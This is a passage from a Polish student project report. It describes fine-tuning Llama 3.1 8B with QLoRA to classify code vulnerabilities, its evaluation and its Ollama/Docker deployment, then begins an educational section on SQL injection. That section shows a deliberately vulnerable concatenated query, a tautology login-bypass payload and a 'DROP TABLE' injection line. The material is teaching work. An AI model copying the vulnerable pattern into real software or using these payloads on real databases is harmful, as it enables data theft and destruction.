Wyżej wspomniane ograniczenie również wymusiło zmniejszenie maksymalnej długości kontekstu w dostosowywaniu. Zastosowano długość 1024 bitów, która nie 
miała znacznego negatywnego wpływu na końcową efektywność modelu, a zaoszczędziła pamięci VRAM oraz czasu uczenia. 

\subsection{Dostrajanie parametryczne - PEFT}
\label{ssec:model_peft}


Pełne dostrajanie modelu 8B na sprzęcie konsumenckim jest zadaniem graniczącym z niewykonalnością. Chcąc zachować korzyści z użycia wyższej liczby parametrów modelu i 
jednocześnie dopełnić zadania odpowiedniego dostosowania modelu do potrzeby detekcji i klasyfikacji podatności, zastosowano metodę \emph{Low-Rank Adaptation (LoRA)}, która
zamraża oryginalne wagi modelu i wprowadza małe, trenowalne macierze adapterów w wybranych warstwach.

Dla zachowania kompromisu efektywności uczenia, oraz poprawności wykonywania zadania przez ostateczny, dostosowany model, postanowiono wykorzystać następujące wartości parametrów:

\begin{itemize}

    \item \textbf{Ranga (\texttt{r = 8}):} Wstępna wybrana wartość parametru \emph{Rangi} \textbf{r}, która definiuje rozmiar macierzy adapterów
            \footnote{dla ranga = R, pojedynczy adapter składa się z dwóch macierzy wymiarów $R \times d$ oraz $d \times R$.}, to 16.
            Niestety, podczas procesu uczenia okazało się, że wartość ta jest zbyt duża dla sprzętu - proces dostosowywania został inicjalizowany, ale nie był 
            w stanie załadować większej wartości informacji do VRAM. Z uwagi na to, ranga została zmniejszona do wartości 8.
            Negatywnym efektem tego zmniejszenia jest ograniczenie "ekpresywności" modelu - na szczęście nie wpływa to znacznie na zadanie, które model ma spełnić; 
    
    \item \textbf{Alpha (\texttt{lora\_alpha = 8}):} Zgodnie z konwencją, parametr \emph{Alpha}, będący współczynnikiem skalowania wartości/wpływu dostosowań na oryginalny model, 
            ma być równy wartości \texttt{r}. W ramach projektu konwencja ta została utrzymana.

    \item \textbf{Dropout (\texttt{lora\_dropout = 0.0})}: Współczynnik \emph{Dropout} był początkowo ustawiony na 0{,}05 w celach regularyzacyjnych, 
            jednak został zmieniony na 0{,}0. Decyzja została podjęta empirycznie, na podstawie ostrzeżenia podczas pierwszego uczenia - biblioteka Unlsoth poinformowała, 
            że jakakolwiek niezerowa wartość \emph{Dropout} wyłącza zoptymalizowane jądra CUDA, powodując znaczący spadek wydajności;

    \item \textbf{Moduły docelowe}: Adaptując poprzednie ograniczenia parametrów, zespół był w stanie dostosować adaptery wykorzystując wszystkie siedem warstw projekcji:
        \begin{itemize}
            \item cztery warstwy uwagi \texttt{q/k/v/o\_proj} - potrzebne do modyfikacji mechanizmu dostosowywania wzorców;
            \item trzy warstwy sprzężenia w przód \texttt{gate/up/down\_proj} - potrzebne do przechowywania wiedzy;
        \end{itemize}
        Dzięki tej adaptacji, model zachował elastyczność w uczeniu się nowego zadania, co jest całym celem procesu dostosowywania.

    \item \textbf{Punkty kontrolne podczas uczenia (\texttt{"unsloth"})}: W trakcie uczenia wykorzystano metodę \emph{gradient checkpointing} z parametrem niestandardowym
            "unsloth", który ponownie oblicza aktywacje przy przejściu wstecznym zamiast przechowywania ich w VRAM. Metoda ta wydłużyła proces dostosowywania o dodatkowe 
            8-9 godzin\footnote{Czas opisany w \ref{ssec:problem_long_eval}}, co zajęło ok. $\frac{1}{3}$ całkowitego czasu dostosowywania, jednak okazała się przydatna - redukowała ona szczytowe zużycie VRAM o ok. 30\%, 
            oraz pozwoliła kontynuować dostosowywanie od zapisanego momentu, gdy nastąpiło nagłe wyłączenie komputera, na którym przebiegał proces uczenia (przypadek, 
            który raz się wydarzył).
    
\end{itemize}

Poniżej znajduje się fragment kodu pliku \texttt{3.model\_preparation.py} odpowiedzialny za inicjalizację i wstępną konfigurację wybranego modelu \texttt{unsloth/Meta-Llama-3.1-8B-Instruct},
z podsumowaniem wymienionych powyżej wartości parametrów modelu oraz adapterów LoRA, jak i innych, nieopisanych powyżej ustawień domyślnych:

\begin{tcolorbox}
\begin{verbatim}
MODEL_NAME   = "unsloth/Meta-Llama-3.1-8B-Instruct"
MAX_SEQ_LEN  = 1024   
LOAD_IN_4BIT = True

... 

model, tokenizer = FastLanguageModel.from_pretrained(
    model_name     = MODEL_NAME,
    max_seq_length = MAX_SEQ_LEN,
    dtype          = None,
    load_in_4bit   = LOAD_IN_4BIT,
)

...

model = FastLanguageModel.get_peft_model(
model,
r = 8,       
lora_alpha = 8,      
lora_dropout = 0.0,     
target_modules = [
    "q_proj", "k_proj", "v_proj", "o_proj",
    "gate_proj", "up_proj", "down_proj"
],
bias = "none",
use_gradient_checkpointing = "unsloth",
random_state = 42,
)
\end{verbatim}
\end{tcolorbox}

Ostatecznie liczba wag adapterów LoRA po tokenizacji to \emph{41 094 040} - to oznacza dotrenowanie zaledwie 0,52\% wag modelu.
Jest to liczba wycelowana w środek złotego środka dostosowywania LoRA, estymowanego zwyczajowo na między 0,1\% a 1\%. 



\subsection{Potok Treningowy}

\subsubsection{Wstępna tokenizacja danych}

Wstępna tokenizacja danych do przyjęcia przez LLM odbywa się w drugim w kolejności wykonywania skrypcie: \texttt{2.data\_tokenization.py}. 
Skrypt ten pobiera zbiór danych HuggingFace (stworzony i opisany w sekcji \ref{ssec:model_dataset}), oraz wykonuje na nim tokenizację wykorzystując 
klasę \verb|AutoTokenizer| z biblioteki \texttt{transformers}. Tokenizacja została wykonana na CPU, z uwagi na fakt iż nie jest to wymagająca obliczeniowo operacja.
Poniżej znajduje się końcowa wykorzystana konfiguracja tokenizacji i mapowania zbioru danych:

\begin{tcolorbox}
\begin{verbatim}
def tokenize(batch):
    tok = AutoTokenizer.from_pretrained(TOKENIZER_ID)
    tok.pad_token    = tok.eos_token
    tok.padding_side = "right"
    encoded = tok(
        batch["text"],
        truncation     = True,
        max_length     = MAX_SEQ_LEN,
        padding        = False,
        return_tensors = None,
    )
    return {
        "input_ids":      encoded["input_ids"],
        "attention_mask": encoded["attention_mask"],
    }
... 
    dataset = load_from_disk("data/hf_dataset")

    dataset = dataset.map(
        tokenize,
        batched  = True,
        num_proc = 4,
        desc     = "Tokenising",
    )
\end{verbatim}
\end{tcolorbox}

Warto zaznaczyć, że podczas tworzenia procesu tokenizacji napotkano na problem związany z systemem Windows. Problem był związany z modułem \texttt{multiprocessing} 
w systemie Windows i został dokładnie opisany w sekcji \ref{ssec:problem_tokenization}.


\subsubsection{Konfiguracja treningu}
\label{sssec:model_configuration}

Poniżej przedstawiono wybrane, istotne parametry dostosowywania modelu. Wszystkie parametry dostępne są w skrypcie dostosowywania - \texttt{3.model\_preparation.py}:

\begin{tcolorbox}
\begin{verbatim}
TrainingArguments(
    num_train_epochs = 3,
    per_device_train_batch_size = 2,
    gradient_accumulation_steps = 8,   # Efektywny rozmiar batcha = 16
    learning_rate = 2e-4,
    lr_scheduler_type = "cosine",
    warmup_ratio = 0.05,
    fp16 = not torch.cuda.is_bf16_supported(),
    bf16 = torch.cuda.is_bf16_supported(),
    optim = "adamw_8bit",
    dataloader_num_workers = 0,       # Wymagane na Windows z Unsloth
    eval_steps = 200,
    save_steps = 200,
    save_total_limit = 3,
    load_best_model_at_end = True,
    metric_for_best_model = "eval_loss",
)
\end{verbatim}
\end{tcolorbox}

\begin{itemize}
    \item \textbf{Współczynnik uczenia (\texttt{learning\_rate = 2e-4})}: Standardowa wartość współczynnika uczenia stosowana przy dostrajaniu metodą QLoRA. 
            Niższa wartość spowodowałaby zbyt wolną konwergencję, a wyższa grozi przekroczeniem minimów funkcji straty;

    \item \textbf{Harmonogram (\texttt{lr\_scheduler\_type = "cosine"})}: 
            Harmonogram typu cosinus został wybrany z uwagi na jego możliwość stopniowej redukcji współczynników uczenia, od wartości szczytowej do wartości bliskiej
            zeru, w trakcie całego procesu treningowego. Dzięki temu, jest on w stanie zapobiec destrukcyjnym aktualizacjom wag na późnych etapach treningu, 
            gdy model zbliża się do zbieżności - wagi zachowują informacje z całego procesu uczenia, przez co pierwsze stadia procesu nie są wyznaczane "na marne";

    \item \textbf{\% rozgrzewka (\texttt{warmup\_ratio = 0.05})}: Pięcioprocentowa "rozgrzewka" dostosowywania liniowo zwiększa współczynnik uczenia od zera 
            do \texttt{learning\_rate} przez pierwsze 558 kroków, stabilizując i względnie przyspieszając wczesne etapy treningu;

    \item \textbf{Efektywny rozmiar batch'a = 16}: Osiągnięty poprzez ustawienie dwóch innych parametrów:  
            \texttt{per\_device\_train\_batch\_size = 2} $\times$ \texttt{gradient\_accumulation\_steps = 8}. Akumulacja gradientu, jak nazwa wskazuje, gromadzi gradienty 
            z 8 mikrobatch'y przed wykonaniem pojedynczej aktualizacji wag. To podejście efektywnie symuluje batch'e rozmiaru 16 jednocześnie przechowując w VRAM jedynie 2 przykłady.
            Dzięki temu, zespół był w stanie zapewnić nieprzekroczenie pojemności VRAM karty graficznej z uwagi na fizyczny rozmiar batch'a;

    \item \textbf{Funkcja optymalizacji (\texttt{optim = adamw\_8bit})}: W celu efektywnego wyuczenia wykorzystano funkcję optymalizacji AdamW - 
            modyfikację algorytmu Adam, będącym rozszerzeniem stochastycznego spadku gradientu. AdamW, w przeciwieństwie do pierwotnego, odłącza zanikanie wag (weight decay)
            od aktualizacji związanych z wyznaczaniem gradientu. W praktyce, to odłączenie daje efekt "utrzymania buforu pędu" dla każdego trenowalnego parametru - 
            zanikanie wag nie wpływa na efekt końcowy tak bardzo, jak dla zwykłego algorytmu Adam. 
            Wariant 8-bitowy tego algorytmu redukuje ilość pamięci potrzebnej do przetrzymania parametró LoRA do  $\approx 84$~MB przy nieznacznym wpływie na dokładność modelu;

    \item \textbf{\texttt{dataloader\_num\_workers = 0}}: Liczba "pracowników" DataLoader, którą ustawiono na zero w celu zapobiegnięciu uruchamieniu przez PyTorch
            procesów potomnych DataLoadera, co wywołałoby niezgodność multiprocessing analogiczną do tokenizacji (patrz sekcja \ref{ssec:problem_tokenization}).
            Ponieważ zbiór danych był już stokenizowany i zapisany na dysku, wczytywanie danych w procesie jednowątkowym nie spowodowało żadnych istotnych strat wydajności;

    \item \textbf{Liczba kroków między walidacją i między zapisem \texttt{eval\_steps = 200}, \texttt{save\_steps = 200}}: 
            Liczba kroków, co którą miał być wykonywany proces ewaluacji oraz zapis punktów kontrolnych (wspomnianych w sekcji \ref{ssec:model_peft}). Wybrana wartość tych 
            parametrów okazała się być zbyt mała, w związku z obliczeniami wymaganymi w celu ewaluacji adapterów. Proces ten został opisany w sekcji \ref{ssec:problem_long_eval}.

\end{itemize}




\subsubsection{Długość sekwencji}

Jak wspomniano w sekcji \ref{sssec:model_quantization}, maksymalna długość sekwencji została zmniejszona z pierwotnych 2048 tokenów na \textbf{1024 tokeny}.
Zmiana ta okazała się być znacząca w zakresie zarządzania pamięcią VRAM: zapotrzebowanie na pamięć mechanizmu uwagi rośnie kwadratowo wraz z długością sekwencji,
dlatego redukcja okna kontekstowego o połowę zmniejszyła szczytowe zużycie VRAM o około 25\%. 

Z obliczeń wykonanych post factum, fragmenty kodu podatności w zbiorze treningowym miały medianę długość mniejszą niż 512 tokenów - żaden istotny przykład nie został obcięty.

\subsubsection{Czas i przebieg treningu}

Poniżej znajduje się tabelka podsumowująca proces uczenia. Proces ten zajął około 24 godziny obliczeń, z uwagi na ograniczenia sprzętowe GPU - jedna karta graficzna 
i jej ograniczenia przepustowości są fundamentalnym mankamentem w przypadku uczenia modelu LLM, którego zespół nie był w stanie ominąć. Zarazem, fakt iż głównym ograniczeniem
dostosowywania był sprzęt, świadczy o prawidłowej optymnalizacji potoku i procesu uczenia dla tego sprzętu.
W połączeniu ze wspomnianymi wyżej problemami z czasem ewaluacji, uczenie zajęło znaczną ilość czasu. 

\begin{table}[H]
    \centering
    \begin{tabular}{ll}
        \toprule
        \textbf{Wskaźnik}                   & \textbf{Wartość} \\
        \midrule
        Łączna liczba kroków treningo wych  & 11\,157 \\
        Liczba epok                         & 3 \\
        Średni czas jednego kroku           & ok. 5 sekund \\
        Łączny czas treningu                & ok. 24 godziny \\
        Wykorzystanie GPU (jednostki SM)    & 90 -98\%\footnote{Wykorzystanie GPU zostało zweryfikowane przy użyciu polecenia
\texttt{nvidia-smi dmon -s u -d 1} podczas treningu, co potwierdziło, że karta
graficzna pracowała przez cały czas przy niemal maksymalnej wydajności obliczeniowej.}  \\
        Wykorzystanie pamięci GPU           & 60-80\% \\
        Końcowa strata treningowa           & 0,13-0,15 \\
        \bottomrule
    \end{tabular}
    \caption{Statystyki procesu treningowego}
\end{table}



\subsection{Eksport wyuczonego modelu}
\label{ssec:model_export}

Ostatnim krokiem do wykonania przez końcowym testowaniem modelu jest eksport adapterów LoRA do modelu obsługiwanego przez serwer inferencji \emph{Ollama}, który 
jest planowanym rozwiązaniem do włączenia oraz serwowania gotowego modelu na potrzeby systemu.

Wytrenowany model został wyeksportowany do formatu GGML Unified Format (GGUF) w kwantyzacji \textbf{Q4\_K\_M}. Format ten wybrano jako praktyczny kompromis
między rozmiarem modelu, szybkością inferencji a dokładnością:

\begin{table}[H]
    \centering
    \begin{tabular}{lllp{5cm}}
        \toprule
        \textbf{Format} & \textbf{Rozmiar pliku} & \textbf{Jakość} & \textbf{Uwagi} \\
        \midrule
        F16      & $\approx$16~GB    & Najlepsza         & Zbyt duży dla wdrożenia na dostępnym sprzęcie \\
        Q8\_0    & $\approx$8~GB     & Prawie bezstratna & Marginalnie mieści się na 8~GB VRAM GPU \\
        Q4\_K\_M & $\approx$4{,}5~GB & Bardzo dobra    & \textbf{Wybrany} \\
        Q4\_0    & $\approx$3{,}5~GB & Dobra           & Alternatywa przy bardziej ograniczonym miejscu \\
        Q2\_K    & $\approx$2{,}5~GB & Akceptowalna    & Znaczące pogorszenie jakości \\
        \bottomrule
    \end{tabular}
    \caption{Porównanie opcji kwantyzacji GGUF porównanych w ramach implementacji projektu.}
\end{table}



\subsection{Ewaluacja Modelu}
\label{ssec:model_evaluation}

\subsubsection{Procedura testowania}

Ostateczne testowanie i ocena modelu zostały przeprowadzone na wydzielonym zbiorze testowym, liczącym 3\,465 przykładów (patrz tabela w sekcji \ref{tab:dataset_split}).
Oczywiście, rekordy te nie były używane podczas treningu ani przy wyborze punktów kontrolnych na podstawie straty walidacyjnej. 

Proces oceny polega na załadowaniu modelu w trybie inferencji z wykorzystaniem optymalizacji \texttt{FastLanguageModel.for\_inference} biblioteki
Unsloth. Każdy fragment kodu w zbiorze testowym był przekazywany wykorzystując ten sam format promptu:

\emph{
Analyze the following code and determine whether it contains a security vulnerability. 
If a vulnerability is present, state its exact type from this list: 
SQL Injection, Cross-Site Scripting (XSS), Command Injection, Path Traversal, 
Buffer Overflow, Insecure Deserialization. 
If no vulnerability is present, respond with: No Vulnerability.
}

Wyjście modelu było sprawdzone względem posiadania jednego z siedmiu dopuszczalnych etykiet. 

Na tej podstawie wyznaczono podstawowe metryki oceny modelu, w tym macierz błędów, wynik $F_1$ oraz ogólną dokładność

Cała procedura ewaluacji modelu została zawarta w skrypcie \texttt{5.model\_evaluation.py}, a jej zapytanie zajęło ok. 60 minut.

\subsubsection{Wyniki}

\begin{table}[H]
    \centering
    \begin{tabular}{lcccc}
        \toprule
        \textbf{Klasa} & \textbf{Precyzja} & \textbf{Czułość} & \textbf{Wynik $F_1$} & \textbf{Liczba elementów} \\
        \midrule
        SQL Injection               & 0,99 & 1,00 & 1,00 & 361 \\
        Cross-Site Scripting (XSS)  & 0,98 & 0,94 & 0,96 & 464 \\
        Command Injection           & 1,00 & 0,98 & 0,99 & 344 \\
        Path Traversal              & 0,74 & 0,62 & 0,68 & 322 \\
        Buffer Overflow             & 1,00 & 0,91 & 0,95 & 156 \\
        Insecure Deserialization    & 0,62 & 0,96 & 0,76 & 85 \\
        No Vulnerability            & 0,96 & 1,00 & 0,98 & 1733 \\
        \midrule
        \textbf{Dokładność ogólna}  & \multicolumn{4}{c}{\textbf{93,36\%}} \\
        \midrule
        \textbf{Całkowity wynik $F_1$}  & \multicolumn{4}{c}{\textbf{90,17\%}} \\
        \bottomrule
    \end{tabular}
    \caption{Wyniki końcowej ewaluacji na wydzielonym zbiorze testowym.}
\end{table}

\begin{figure}[H]
    \includesvg[width=\textwidth]{confusion_matrix.svg}
    \caption{Macierz błędu stworzona podczas ostatecznej oceny modelu.}
\end{figure}

\subsubsection{Ocena wyników}

Dokładność ogólna na poziomie 93\% w zadaniu klasyfikacji 7-klasowej stanowi silny i obiecujący wynik, biorąc pod uwagę dostrajanie prowadzone 
na sprzęcie konsumenckim. W tym momencie warto zaznaczyć, że:

\begin{itemize}
    \item Zadanie, które model ma spełnić, wymaga semantycznego rozumienia kodu, a nie jedynie dopasowywania wzorców powierzchniowych;
    \item Model musi poprawnie rozróżniać sześć strukturalnie odmiennych typów podatności;
    \item Klasa negatywna (kod bezpieczny) wymaga od modelu prawidłowego rozpoznania \textit{braku} podatności, co jest trudniejszym kierunkiem
    klasyfikacji.
\end{itemize}

W perspektywie tych trzech rzeczy, wynik testowy powyższy 90\% jest wynikiem bardzo dobrym.

W procesie uczenia, klasy \emph{Path Traversal} oraz \emph{Insecure Deserialization} uzyskały najmniejsze względne wyniki. W przypadku pierwszej klasy, 
część przypadków przypisanych tej klasie należała faktycznie do klasy \emph{No Vulnerability}, a w przypadku drugiej - wynik można wyjaśnić względnie małą liczbą
przykładów w oryginalnym zbiorze (patrz \ref{ssec:model_dataset}), a co za tym idzie - w zbiorze testowym. 

Co ciekawe, klasa \emph{Buffer Overflow}, mimo względnie niskiej liczebności, otrzymała jeden z najlepszych wyników w testach. 

Na podstawie tych wyników, postanowiono na \textbf{tymczasowe odrzucenie podatności Path Traversal oraz Insecure Deserialization z planowanego zbioru teoretycznego 
aplikacji}. W celu rozwinięcia aplikacji o przywrócenie tych, oraz dodanie innych podatności, należy skupić się na zwiększeniu próbek tych klas w kolejnym przebiegu 
treningowym - to podejście jest najskuteczniejszym sposobem poprawy dokładności ogólnej.




\subsection{Konfiguracja serwera Ollama}

Z uwagi na uproszczenie użytkowania oraz dalsze plany obsługi LLM w sieci systemu, podstanowiono zapisać konfigurację LLM w serwisie \texttt{ollama} za pomocą
pliku \texttt{Modelfile}, w którym zdefiniowano:
\begin{itemize}
    \item rygorystyczny prompt systemowy ograniczający wyjście do jednej z siedmiu dopuszczalnych etykiet;
    \item parametry modelu gwarantujące deterministyczne zachowanie;
    \item plik .gguf, który został zapisany po dostosowaniu modelu (patrz \ref{ssec:model_export}).
\end{itemize} 

Poniżej znajduje się treść pliku \texttt{Modelfile}, na podstawie którego stawiany jest model:

\begin{tcolorbox}
\begin{verbatim}
# Modelfile
FROM ./models

SYSTEM """
You are a cybersecurity code analysis assistant. Your sole task is 
to analyze source code and determine whether it contains a security 
vulnerability.

When given code, respond with ONLY one of the following labels —
nothing else:
- SQL Injection
- Cross-Site Scripting (XSS)
- Command Injection
- Buffer Overflow
- No Vulnerability

Do not explain. Do not add any extra text. Output only the label.
"""

PARAMETER temperature    0.1
PARAMETER top_p          0.9
PARAMETER top_k          40
PARAMETER num_predict    20
PARAMETER stop           "\n"
PARAMETER stop           "###"
\end{verbatim}
\end{tcolorbox}

W celu odtworzenia modelu za pomocą \texttt{ollama}, należy wykonać wstawić plik \texttt{.gguf} modelu do katalogu \texttt{models}, oraz wykonać 
następujące polecenie:
\begin{tcolorbox}
\begin{verbatim}
ollama create SCLA_ML_vuln_detector -f Modelfile
\end{verbatim}    
\end{tcolorbox}

\subsection{Konteneryzacja w środowisku Docker}

Aby umożliwić łatwość wykonania aplikacji na dowolnym serwerze, postanowiono skonteneryzować serwowanie LLM (jak i inne aspekty projektu) w środowisku Docker.
Podstawowy kontener oparty jest na oficjalnym obrazie \texttt{ollama/ollama:latest}. W ramach utworzenia odpowiedniej konfiguracji wykonywane są następujące kroki:

\begin{enumerate}
    \item Plik GGUF osadzany jest bezpośrednio w obrazie w trakcie budowania;
    \item Model jest automatycznie rejestrowany w serwerze Ollama przy pierwszym uruchomieniu za pośrednictwem skryptu \texttt{entrypoint.sh};
    \item Kontener udostępnia REST API serwera Ollama na porcie 11434;
    \item Kontener przekazuje kartę graficzną hosta przez NVIDIA Container Toolkit, jeżeli to możliwe, w celu uwydatnienia działania modelu;
    \item Tworzona jest zmienna środowiskowa \texttt{OLLAMA\_KEEP\_ALIVE=-1}, której cel jest opisany poniżej, w sekcji \ref{ssec:model_latency}.

\end{enumerate}

\subsection{Opóźnienie inferencji}
\label{ssec:model_latency}

Podczas wstępnych testów konfiguracji kontenera \texttt{vuln-detector} zauważono ciekawą zależność: w celu ograniczenia wykorzystania zasobów RAM, 
serwis \texttt{ollama} wyładuwoje model z pamięci po 5 minutach nieaktywności, co sprawia że przed kolejnym zapytaniem model musi być ponownie załadowany do RAM. 

W zależności od komputera na którym kontener są uruchomiony, ponowne wgranie modelu może zająć od 15 do 60 sekund. Dla porównania, 
odpowiedź modelu wgranego trwa średnio 350 ms.  W przypadku aplikacji do uczenia bezpiecznego kodu, gdzie między zadaniami jest wstęp teoretyczny do zapoznania się z tematyką,
oznacza to potencjalnie wielokrotne ładowanie i wyładowywanie, sprawiające opóźnienia systemowe.

Żeby pozbyć się tego mankamentu, postanowiono zdefiniować dodatkową zmienną środowiskową do kontenera z modelem LLM - \texttt{OLLAMA\_KEEP\_ALIVE=-1}.
Ustawienie wartości zmiennej mówi serwisowi \texttt{ollama} o maksymalnym czasie nieaktywności modeli zanim zostaną wyładowane z pamięci. Gdy zmienna 
jest ujemna, są ciągle wgrane w RAM. 


\subsection{Klient API w Języku Python}

Dodatkowym aspektem przygotowanym przez zespół, aby ułatwić oraz usystematyzować dostęp aplikacji do zasobów LLM, było stworzenie klienta API do obsługi specyficznych zapytań
do LLM. W ramach wykonania tego aspektu opracowano bibliotekę-klient w języku Python - \texttt{vuln\_detector\_client.py}, zapewniającą przejrzysty interfejs
programistyczny do skonteneryzowanego modelu. 

Dzięki temu podejściu, aplikacja nie tylko jest w stanie łatwo dostać się do modelu \\\texttt{SCLA\_ML\_vuln\_detector}, ale również zapewnia odpowiednie formatowanie 
prompt'ów ()

\subsubsection{Kluczowe funkcjonalności}

Poniżej znajduje się spis wybranych, kluczowych funkcjonalności:

\begin{itemize}
    \item \texttt{VulnDetectorClient} - główna klasa odpowiadająca za obsługę komunikacji między aplikacją a LLM.
    Zawiera metodę \texttt{analyze(str)}, która formatuje prompt, wysyła go do modelu oraz przyjmuje i formatuje 
    odpowiedź, zwracając ustrukturyzowaną formę w postaci obiekt klasy danych \texttt{AnalysisResult}; 
    
    \item \texttt{AnalysisResult} - klasa danych zawierająca informacje o etykiecie podatności, fladze podatności, surowym wyjście modelu oraz czasie odpowiedzi 
    w milisekundach;

    \item \texttt{analyze\_file(path)} - odczytuje plik z dysku oraz obsługuje zapytanie LLM analogicznie do funkcji \texttt{analyze()} dla jego zawartości;

    \item \texttt{analyze\_batch(snippets)} - wywołanie funkcji \texttt{analyze()} sekwencyjnie dla listę fragmentów kodu;

    \item \texttt{health\_check()} - funkcja sprawdzająca aktualną dostępność modelu - zwraca \texttt{True}, jeśli serwer i model
    są dostępne;

    \item \texttt{wait\_until\_ready()} - blokuje wykonanie do momentu gotowości serwera, przydatne w skryptach uruchamiających kontener
    i natychmiast wykonujących zapytania.

\end{itemize}


\subsubsection{Formatowanie promptów}

W ramach bezpieczeństwa oraz zapewnienia odpowiedniego działania LLM, postanowiono utworzyć obowiązkowe formatowanie promptów wysyłanych do modelu, stworzony 
zgodnie z \textbf{formatem instrukcji Alpaca} - standardową strukturą wejściową dla procesu dostrajania modeli z rodziny Llama. Poniżej znajduje się 
wykorzystanie formatowania w bibliotece \texttt{vuln\_detector\_client.py}:

\begin{tcolorbox}
\begin{verbatim}
def format_example(row):
    instruction = (
        "Analyze the following code and determine whether it contains "
        "a security vulnerability. If a vulnerability is present, state "
        "its exact type from this list: SQL Injection, Cross-Site Scripting"
        " (XSS), Command Injection, Path Traversal, Buffer Overflow, "
        "Insecure Deserialization. If no vulnerability is present, "
        "respond with: No Vulnerability."
    )
    prompt = (
        f"### Instruction:\n{instruction}\n\n"
        f"### Code:\n{row['code'].strip()}\n\n"
        f"### Response:\n{row['label']}"
    )
    return prompt
\end{verbatim}
\end{tcolorbox}


\subsection{Podsumowanie}
\label{ssec:model_summary}
\texttt{SCLA\_ML\_vuln\_detector} jest wynikiem długich działań i prac zespołu nad dopracowaniem modelu Large Language Model do detekcji i interpretacji wrażliwych lub niewrażliwych
przykładów kodu z perspektywy następujących, częstych podatności w cyberbezpieczeństwie:
\begin{itemize} 
    \item SQL Injection;
    \item Cross-Site Scripting (XSS);
    \item Command Injection;
    \item Buffer Overflow.
\end{itemize}

Wykorzystany źródłowy zbiór danych, po odpowiednich transformacjach oraz dostosowaniu pod podzielenie na przykłady pozytywne i negatywne, okazał się być odpowiednim źródłem wiedzy dla modelu -
dzięki procesu dostrojenia, model jest w stanie określić podatności lub ich brak z dokładnością 93\%. 

Z uwagi na ograniczone zasoby, wymagana była implementacja ograniczeń modelu - dostosowanie odbyło się z wykorzystaniem 4-bitowych adapterów QLoRA, wykorzystując dostępną publicznie 
bibliotekę \texttt{unsloth} oraz \texttt{ollama} do stworzenia i serwowania LLM w sieci.

W trakcie wykonywania zadania uczenia, zespół doszedł do wniosku że sytem Windows nie powinien być platformą pierwszego wyboru dla obsługi biblioteki Unsloth. Mimo rozwijających się
udogodnień w postaci PowerShell'a, część napotkanych problemów (awarie multiprocessing, niedostępność Flash Attention, błędy niezgodności zależności pakietów takich jak torchvision)
to problemy które znacznie rzadziej występuje na platformie Linux.

\section{Teksty teoretyczne i przykładowe zadania}

Niniejszy rozdział jest kompilacją wstępów teoretycznych, opisów zabezpieczeń oraz przykładowych zadań, nad stworzeniem których zespół pochylił się w ramach wyników oraz efektów uczenia modelu LLM, podsumowanych w sekcji \ref{ssec:model_summary}. 


\subsection{SQL Injection}

\subsubsection{Wstęp teoretyczny}
W przestrzeni cyberataków, jednym z najbardziej znanych, częstych metod ataku są ataki typu \emph{Code Injection} - wstrzyknięcie kodu.\footnote{
W 2025 roku, ataki typu \emph{Code Injection} zajęły 5 miejsce na liście najczęstszych ataków OWASP Top 10: \url{https://owasp.org/Top10/2025/}.
 W poprzednich latach, \emph{Code Injection} również zajmowało wysokie notowania na tej liście.} 

Ataki wstrzyknięcia kodu wykorzystują lukę w kodzie źródłowym podatnych programów, która pozwala na wysłanie wkładu (user input / payload)  
przez niezaufanego użytkownika do interpretera aplikacji.  

W przypadku normalnego, planowanego wykorzystania kodu interpreter bezproblemowo spełnia funkcję, którą miał wykonać.
Przykładowo, wyobraźmy sobie okno logowania do systemu, w które użytkownik może podać login i hasło. Wpisanie odpowiednich danych,
tj. loginu i hasła użytkownika (zarejestrowanego lub nie) sprawi, że system zachowa się tak, jak oczekiwano - zaloguje użytkownika lub
wykona operację, którą miał wykonać gdy podane informacje są niezgodne.
Natomiast, jeżeli wejście od użytkownika zawiera \emph{złośliwy kod, znaki specjalne lub niezaufane dane}, przekazanie ich 
do interpretera może sprawić, że atakujący zmieni działanie potencjalnie całego systemu na swoją korzyść.

Udane ataki \emph{Code Injection} są w stanie m.in. 
\begin{itemize}
    \item wykraść dane z bazy systemu;
    \item dać niepożądany dostęp do krytycznych części systemu komputerowego;
    \item pozwolić na wgranie malware'u - złośliwego kodu - do systemu. 
\end{itemize} 

Najpopularniejszym, a zarazem najprostszym przykładem ataku typu \emph{Code Injection} jest \textbf{SQL Injection}.
Jak nazwa wskazuje, atak ten wykorzystuje nieodpowiednie zabezpieczenia aplikacji wykorzystującym bazy danych SQL, 
co tworzy wektor ataku do, potencjalnie, całej bazy danych danego systemu. Wykorzystanie takiego wektora może spowodować
wykradnięcie danych, usunięcie lub zmiana wartości kluczowych tabel z systemu i inne rozbicia systemu.

W przypadku \textbf{SQL Injection}, interpreterem wstrzyknięcia jest interpreter składni języka SQL, a wektorem ataku - wrażliwy
kod obsługujący ten interpreter i wykonujący zapytania z wkładem użytkownika.

Korzystając z wcześniejszego przykładu okna logowania, oraz załóżmy że posiadamy aplikację obsługującą SQL w języku Python.
Wyobraźmy sobie sytuację w której mamy dwie zmienne - \verb|username| i \verb|password|, których wartości są pobierane od 
użytkownika poprzez wpisanie ich w ekranie logowania. Następnie, w celu sprawdzenia czy użytkownik istnieje i czy jego 
informacje poświadczające się zgadzają, wykonywany jest następujący kod:
\begin{tcolorbox}
\begin{verbatim}
var query = "SELECT * FROM users WHERE name = '" + username + "'"
response = sql.execute(query)
\end{verbatim} 
\end{tcolorbox}

Na papierze, kod wygląda dobrze - podanie nazwy użytkownika sprawi, że w bazie zostaną wyszukane dane tylko o użytkowniku \verb|username|
- dla tekstu \textit{user1} zapytanie ma postać:
\begin{tcolorbox}
SELECT * FROM users WHERE name = '\textbf{user1}'
\end{tcolorbox}
 
Natomiast, wyobraźmy sobie sytuację w której atakujący podaje wartość \emph{user1' OR '123'='123}. Wówczas, zapytanie ma postać:
\begin{tcolorbox}
SELECT * FROM users WHERE name = '\textbf{user1' OR '123' = '123}'\footnote{Grubą czcionką zaznaczono wejście od atakującego. Zwykła czczionka
to część stała zmiennej query.}
\end{tcolorbox}

W tej sytuacji, atakujący wykorzystał nieodpowiednie filtrowanie danych wejściowych w celu wyświetlenia \textbf{wszystkich} rekordów bazy
\emph{users} poprzez wprowadzenie złośliwego kodu - warunku, który jest zawsze prawdziwy (tekst "123" zawsze jest równy tekstowi "123", 
więc warunek wyszukiwania jest spełniony dla każdego rekordu - zapytanie zwraca każdy rekord).

Co więcej, w niefiltrowane wejście można wprowadzić \emph{dowolny złośliwy kod, wpływający na bazę danych do której serwis ma dostęp} - 
wystarczy użyć znak zakończenia komendy (najczęściej \emph{;}), po czym wprowadzić zupełnie nową komendę, na przykład:
\begin{enumerate}
    \item DROP TABLE xyz;
